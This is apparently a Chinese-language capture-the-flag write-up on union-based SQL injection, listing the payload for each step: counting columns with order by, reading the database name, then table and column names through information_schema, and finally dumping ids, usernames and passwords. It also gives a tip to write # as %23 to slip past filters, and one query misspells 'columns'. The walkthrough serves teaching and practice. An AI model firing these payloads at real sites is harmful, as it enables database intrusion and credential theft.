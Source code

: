 输入1‘ or 1=1 order by 1 #

1‘ or 1=1 order by 2 #

1‘ or 1=1 order by 3 #  ……当查询报错时，即有（n-1）列

order by语句是对第几列句子进行排序

##### 4.确定显示字段的顺序

输入 1’ union select 1,2 #

union 联合查询—将两个查询到的表放在一起

##### 5.获得当前数据库名

输入1' union select 1,database( ) #

database函数即获取当前数据库

##### 6.获取数据库中表名，注出表名

注出表名：
1' union select 1,2,(select group_concat(table_name)from information_schema.tables where table_schema=database()) %23

补：这里#使用URL编码格式：% + 十六进制数，目的是防止被过滤，在本题目中若使用 # 或 --+是无法检测出字段数量的，所以在以后的sql注入题目中，最好使用%23。

##### 7.获取表中字段名

方法：输入1' union select 1,group_concat(column_name) from information_schema.columns where table_name='表名' #

information_schema——相当于图书馆管理员，不会的可以问他，确切的说是信息数据库

当不用group_concat时，当题目只输出一行时，而union是按union顺序一次显示，而我们查询的最少是第二个，因此可以让第一个表为空，即将其改为

1' and 1=2 union select 1,group_concat(column_name) from information_schema.colums where table_name='users' #

##### 8.获取字段信息

1' union select 1,2,(select group_concat(id,username,password) from l0ve1ysq1) %23
